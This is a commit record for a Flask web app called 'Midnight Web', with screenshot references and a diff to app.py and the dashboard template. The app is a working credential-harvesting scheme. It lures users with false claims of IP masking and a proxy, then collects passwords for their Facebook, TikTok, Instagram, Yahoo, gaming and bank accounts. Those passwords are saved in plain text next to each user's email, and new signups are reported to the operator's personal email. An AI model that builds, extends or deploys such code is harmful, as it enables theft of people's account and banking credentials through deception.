

Before and after one commit to Midnight194/MIDNIGHT-WEBPAGE, a Flask app: template templates/dashboard.html in a window 1280 px wide. Shown: the whole page, without its empty margins (282-997 px from the left). After the commit the page ends 954 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty; a user stored in the database is signed in.

Commit message:
update: [progress, been working on it]

```diff
--- a/app.py
+++ b/app.py
@@ -1,6 +1,6 @@
 from flask import Flask, render_template, render_template_string, request, redirect
 from flask_login import LoginManager, login_user, logout_user, login_required, UserMixin, current_user
-
+from flask import Flask, render_template, render_template_string, request, redirect, flash
 from flask_mail import Mail, Message
 from dotenv import load_dotenv
 import os
@@ -52,11 +52,122 @@
 from flask_login import login_required, current_user
 
 from flask_login import login_required, current_user
+("""
+    <!DOCTYPE html>
+    <html>
+    <head>
+        <title>Shadow Dashboard - Midnight</title>
+        <style>
+            body {
+                background-color: #121212;
+                color: #cccccc;
+                font-family: 'Courier New', monospace;
+                text-align: center;
+                padding: 50px;
+            }
+            h2 {
+                font-size: 2.5em;
+                margin-bottom: 10px;
+            }
+            .account-options {
+                display: flex;
+                flex-wrap: wrap;
+                justify-content: center;
+                gap: 20px;
+            }
+            .account {
+                background-color: #1e1e1e;
+                border: 1px solid #333;
+                border-radius: 8px;
+                padding: 20px;
+                width: 150px;
+                cursor: pointer;
+                transition: 0.3s;
+            }
+            .account:hover {
+                background-color: #333;
+                color: white;
+            }
+            .form-container {
+                margin-top: 40px;
+                display: none;
+                max-width: 400px;
+                margin-left: auto;
+                margin-right: auto;
+                background: #1e1e1e;
+                padding: 20px;
+                border-radius: 8px;
+                text-align: left;
+            }
+            input {
+                width: 100%;
+                padding: 10px;
+                margin: 8px 0;
+                border: none;
+                border-radius: 4px;
+            }
+            input[type="submit"] {
+                background-color: #444;
+                color: white;
+                cursor: pointer;
+            }
+        </style>
+    </head>
+    <body>
 
-@app.route("/dashboard")
-@login_required
-def dashboard():
-    return render_template("dashboard.html")
+        <!-- ✅ Flash messages section -->
+        {% with messages = get_flashed_messages() %}
+        {% if messages %}
+            <div style="background:#1e1e1e; color:#00ffcc; padding:10px; border-radius:5px; margin-bottom:20px;">
+                {% for message in messages %}
+                    <p>{{ message }}</p>
+                {% endfor %}
+            </div>
+        {% endif %}
+        {% endwith %}
+
+        <h2>🕶️ Shadow Dashboard</h2>
+        <p>Welcome, {{ current_user.email }} — your operation is secured.</p>
+        <p><strong>IP masked. Inbuilt proxy active.</strong></p>
+
+        <div class="account-options">
+            <div class="account" onclick="showForm('facebookForm')">Facebook</div>
+            <div class="account" onclick="showForm('tiktokForm')">TikTok</div>
+            <div class="account" onclick="showForm('instagramForm')">Instagram</div>
+            <div class="account" onclick="showForm('yahooForm')">Yahoo</div>
+            <div class="account" onclick="showForm('gamingForm')">Gaming</div>
+            <div class="account" onclick="showForm('bankForm')">Bank</div>
+        </div>
+
+        {% for platform in ['facebook', 'tiktok', 'instagram', 'yahoo', 'gaming', 'bank'] %}
+        <div class="form-container" id="{{ platform }}Form">
+            <h3>Link {{ platform.capitalize() }} Account</h3>
+            <form action="/link_{{ platform }}" method="POST">
+                <label>Username or Email:</label><br>
+                <input type="text" name="{{ platform }}_user" placeholder="your_username" required><br>
+                <label>Password:</label><br>
+                <input type="password" name="{{ platform }}_password" placeholder="Enter password" required><br>
+                <input type="submit" value="Link Account">
+            </form>
+        </div>
+        {% endfor %}
+
+        <br><br>
+        <form action="/logout" method="POST">
+            <input type="submit" value="Logout" style="background-color:#222; padding:10px 20px; border:none; color:#fff; border-radius:5px;">
+        </form>
+
+        <script>
+            function showForm(id) {
+                document.getElementById(id).style.display = "block";
+                window.scrollTo({ top: document.body.scrollHeight, behavior: 'smooth' });
+            }
+        </script>
+    </body>
+    </html>
+    """)
+
+
 
 
 @app.route("/logout")
@@ -140,11 +251,15 @@
     email = request.form["email"]
     password = request.form["password"]
 
+    # ✅ Register the user in memory so they can log in later
+    if email not in users:
+        users[email] = User(id=str(len(users) + 1), email=email, password=password)
+
     # Save to file
     with open("submitted_data.txt", "a", encoding="utf-8") as f:
         f.write(f"Email: {email}, Password: {password}\n")
 
-    # ✅ Send confirmation email to the user
+    # Send email to user
     msg_to_user = Message(
         subject="Welcome to Midnight Web",
         recipients=[email],
@@ -152,7 +267,7 @@
     )
     mail.send(msg_to_user)
 
-    # ✅ Send alert email to yourself
+    # Alert you (admin)
     msg_to_you = Message(
         subject="New Midnight Web Signup",
         recipients=["isiemmanuel83@gmail.com"],
@@ -160,8 +275,14 @@
     )
     mail.send(msg_to_you)
 
-    return redirect("/success")
+    # Final redirect to success page
+    return redirect("/login")
 
+
+
+from flask_login import login_required, current_user
+
+from flask_login import login_required
 
 @app.route("/success")
 def success():
@@ -169,121 +290,57 @@
     <!DOCTYPE html>
     <html>
     <head>
-        <title>Shadow Link - Midnight</title>
+        <title>Success - Midnight Web</title>
         <style>
             body {
                 background-color: #121212;
-                color: #00ffcc;
+                color: #cccccc;
                 font-family: 'Courier New', monospace;
                 text-align: center;
                 padding: 50px;
             }
-            h2 {
-                font-size: 2.5em;
-                margin-bottom: 10px;
+            .message-box {
+                background-color: #1e1e1e;
+                padding: 30px;
+                border-radius: 10px;
+                display: inline-block;
+                margin-top: 40px;
             }
-            p {
-                color: #bbbbbb;
-                font-size: 1.2em;
-                margin-bottom: 30px;
-            }
-            .account-options {
-                display: flex;
-                flex-wrap: wrap;
-                justify-content: center;
-                gap: 20px;
-            }
-            .account {
-                background-color: #1e1e1e;
-                border: 1px solid #333;
-                border-radius: 8px;
-                padding: 20px;
-                width: 150px;
-                cursor: pointer;
-                transition: 0.3s;
-            }
-            .account:hover {
-                background-color: #1e88e5;
-                color: white;
-            }
-            .form-container {
-                margin-top: 40px;
-                display: none;
-                max-width: 400px;
-                margin-left: auto;
-                margin-right: auto;
-                background: #1e1e1e;
-                padding: 20px;
-                border-radius: 8px;
-                box-shadow: 0 0 10px #00000099;
-                text-align: left;
-            }
-            input {
-                width: 100%;
-                padding: 10px;
-                margin: 8px 0;
-                border: none;
-                border-radius: 4px;
-            }
-            input[type="submit"] {
-                background-color: #1e88e5;
-                color: white;
-                cursor: pointer;
+            a {
+                color: #1e88e5;
+                text-decoration: underline;
+                display: inline-block;
+                margin-top: 20px;
             }
         </style>
     </head>
     <body>
-        <h2>✅ You are now in the shadows</h2>
-        <p>
-            Link up desired accounts to stay informed and work under the radar.<br>
-            <strong>IP masked. Inbuilt proxy active.</strong>
-        </p>
-
-        <div class="account-options">
-            <div class="account" onclick="showForm('facebookForm')">Facebook</div>
-            <div class="account" onclick="showForm('tiktokForm')">TikTok</div>
-            <div class="account" onclick="showForm('instagramForm')">Instagram</div>
-            <div class="account" onclick="showForm('yahooForm')">Yahoo</div>
-            <div class="account" onclick="showForm('gamingForm')">Gaming</div>
-            <div class="account" onclick="showForm('bankForm')">Bank</div>
+        <div class="message-box">
+            <h2>✅ Welcome to Midnight Web</h2>
+            <p>You're now inside the shadows.<br>Log in to start linking your accounts securely.</p>
+            <a href="/login">🔐 Go to Login</a>
         </div>
-
-        <!-- Forms -->
-        {% for platform in ['facebook', 'tiktok', 'instagram', 'yahoo', 'gaming', 'bank'] %}
-        <div class="form-container" id="{{ platform }}Form">
-            <h3>Link {{ platform.capitalize() }} Account</h3>
-            <form action="/link_{{ platform }}" method="POST">
-                <label>Username or Email:</label><br>
-                <input type="text" name="{{ platform }}_user" placeholder="your_username" required><br>
-                <label>Password:</label><br>
-                <input type="password" name="{{ platform }}_password" placeholder="Enter password" required><br>
-                <input type="submit" value="Link Account">
-            </form>
-        </div>
-        {% endfor %}
-
-        <br><br>
-        <a href="/" style="color:#00ffcc; text-decoration:underline;">⬅ Return to Midnight Web</a>
-
-        <script>
-            function showForm(id) {
-                document.getElementById(id).style.display = "block";
-                window.scrollTo({ top: document.body.scrollHeight, behavior: 'smooth' });
-            }
-        </script>
     </body>
     </html>
     """)
 
+
+
+from flask import flash  # add this at the top with other imports
+
 @app.route("/link_<platform>", methods=["POST"])
+@login_required
 def link_account(platform):
     user = request.form.get(f"{platform}_user")
     password = request.form.get(f"{platform}_password")
 
-    with open("linked_accounts.txt", "a") as f:
-        f.write(f"{platform.capitalize()} Username/Email: {user}, Password: {password}\n")
+    with open("linked_accounts.txt", "a", encoding="utf-8") as f:
+        f.write(f"{current_user.email} | {platform.capitalize()} | Username: {user} | Password: {password}\n")
 
-    return redirect("/linked")
+    flash(f"{platform.capitalize()} account linked successfully!")
+    return redirect("/dashboard")
+
+
 
 @app.route("/linked")
 def linked():
--- a/templates/dashboard.html
+++ b/templates/dashboard.html
@@ -1,114 +1,174 @@
 <!DOCTYPE html>
-<html lang="en">
+<html>
 <head>
-    <meta charset="UTF-8">
-    <title>Dashboard - Midnight Web</title>
+    <title>Midnight Dashboard</title>
     <style>
         body {
-            background-color: #0e0e0e;
-            color: #e0e0e0;
+            background-color: #121212;
+            color: #cccccc;
             font-family: 'Courier New', monospace;
+            padding: 30px;
             text-align: center;
-            padding: 40px;
         }
 
-        h1 {
-            color: #c13535;
-            font-size: 2.2em;
-            margin-bottom: 30px;
+        h1, h2 {
+            color: #ffffff;
         }
 
         .section {
-            background-color: #1a1a1a;
-            border: 1px solid #333;
-            margin: 20px auto;
+            background-color: #1e1e1e;
+            margin: 30px auto;
             padding: 25px;
-            border-radius: 8px;
-            max-width: 600px;
+            border-radius: 12px;
+            max-width: 700px;
+            box-shadow: 0 0 10px #000000aa;
         }
 
-        h2 {
-            color: #cccccc;
-            font-size: 1.5em;
+        .section h2 {
+            font-size: 1.8em;
             margin-bottom: 10px;
         }
 
-        p {
-            color: #b0b0b0;
-            font-size: 1em;
+        .flash-message {
+            background-color: #003333;
+            color: #00ffcc;
+            padding: 10px 20px;
+            margin: 20px auto;
+            border-radius: 6px;
+            max-width: 500px;
         }
 
-        ul {
-            list-style: none;
-            padding: 0;
-            margin-top: 10px;
-            color: #b5b5b5;
-        }
-
-        .btn {
-            background-color: #2e2e2e;
-            border: 1px solid #444;
-            padding: 10px 20px;
-            color: #e0e0e0;
-            border-radius: 4px;
-            cursor: pointer;
+        .account-options {
+            display: flex;
+            flex-wrap: wrap;
+            justify-content: center;
+            gap: 15px;
             margin-top: 15px;
         }
 
-        .btn:hover {
-            background-color: #3a3a3a;
+        .account {
+            background-color: #2a2a2a;
+            border: 1px solid #444;
+            border-radius: 8px;
+            padding: 15px;
+            width: 140px;
+            cursor: pointer;
+            font-weight: bold;
         }
 
-        a {
-            color: #999999;
-            text-decoration: none;
+        .account:hover {
+            background-color: #333;
         }
 
-        a:hover {
-            text-decoration: underline;
-            color: #bbbbbb;
+        .form-container {
+            display: none;
+            margin-top: 20px;
+            max-width: 400px;
+            margin-left: auto;
+            margin-right: auto;
+            background: #1e1e1e;
+            padding: 20px;
+            border-radius: 8px;
+            text-align: left;
         }
 
-        .footer {
-            margin-top: 60px;
-            font-size: 0.85em;
-            color: #555;
+        input {
+            width: 100%;
+            padding: 10px;
+            margin: 8px 0;
+            border-radius: 4px;
+            border: none;
+        }
+
+        input[type="submit"] {
+            background-color: #444;
+            color: white;
+            cursor: pointer;
+        }
+
+        .logout {
+            margin-top: 40px;
+        }
+
+        .logout button {
+            padding: 10px 20px;
+            background-color: #1e88e5;
+            border: none;
+            color: white;
+            border-radius: 6px;
+            cursor: pointer;
+        }
+
+        .logout button:hover {
+            background-color: #1565c0;
+        }
+
+        em {
+            color: #00ffaa;
         }
     </style>
 </head>
 <body>
-    <h1>Midnight Shadow Dashboard</h1>
-    <p>Logged in as: <strong>{{ current_user.email }}</strong></p>
+
+    <h1>🕶 Welcome, {{ current_user.email }}</h1>
+
+    {% with messages = get_flashed_messages() %}
+    {% if messages %}
+        <div class="flash-message">
+            {% for message in messages %}
+                <p>{{ message }}</p>
+            {% endfor %}
+        </div>
+    {% endif %}
+    {% endwith %}
 
     <div class="section">
-        <h2>Linked Accounts</h2>
-        <p>Manage your connected Facebook, TikTok, etc.and surf in the shadows </p>
-        <a href="/success">→ Link More Accounts</a>
+        <h2>🔗 Link Your Accounts</h2>
+        <p>Select an account to link:</p>
+        <div class="account-options">
+            <div class="account" onclick="showForm('facebookForm')">Facebook</div>
+            <div class="account" onclick="showForm('tiktokForm')">TikTok</div>
+            <div class="account" onclick="showForm('instagramForm')">Instagram</div>
+            <div class="account" onclick="showForm('yahooForm')">Yahoo</div>
+            <div class="account" onclick="showForm('gamingForm')">Gaming</div>
+            <div class="account" onclick="showForm('bankForm')">Bank</div>
+        </div>
+
+        {% for platform in ['facebook', 'tiktok', 'instagram', 'yahoo', 'gaming', 'bank'] %}
+        <div class="form-container" id="{{ platform }}Form">
+            <h3>Link {{ platform.capitalize() }} Account</h3>
+            <form action="/link_{{ platform }}" method="POST">
+                <label>Username or Email:</label><br>
+                <input type="text" name="{{ platform }}_user" required><br>
+                <label>Password:</label><br>
+                <input type="password" name="{{ platform }}_password" required><br>
+                <input type="submit" value="Link Account">
+            </form>
+        </div>
+        {% endfor %}
     </div>
 
     <div class="section">
-        <h2>Privacy & IP Cloaking</h2>
-        <p>Proxy Shield: <strong>Enabled</strong></p>
+        <h2>🛡 Privacy Settings</h2>
+        <p>Proxy: <strong>Enabled</strong></p>
         <p>IP Masking: <strong>Active</strong></p>
-        <p>Assigned IPs:</p>
-        <ul>
-            <li>185.23.91.10 (Germany)</li>
-            <li>103.75.118.213 (Singapore)</li>
-            <li>45.142.182.18 (Russia)</li>
-        </ul>
+        <p>Multiple IPs: <strong>Available</strong></p>
     </div>
 
     <div class="section">
-        <h2>Identity Generator</h2>
-        <p>Current Identity: <em>Shadow Operative #3821</em></p>
+        <h2>🧑 Identity Generator</h2>
+        <p>You are operating as: <em>{{ identity if identity else 'Shadow Operative #XXXX' }}</em></p>
     </div>
 
-    <form action="/logout" method="POST">
-        <button class="btn" type="submit">Logout</button>
+    <form class="logout" action="/logout" method="POST">
+        <button type="submit">🚪 Logout</button>
     </form>
 
-    <div class="footer">
-        Midnight Web — Operating Undetected
-    </div>
+    <script>
+        function showForm(id) {
+            document.getElementById(id).style.display = "block";
+            window.scrollTo({ top: document.body.scrollHeight, behavior: 'smooth' });
+        }
+    </script>
 </body>
 </html>
```
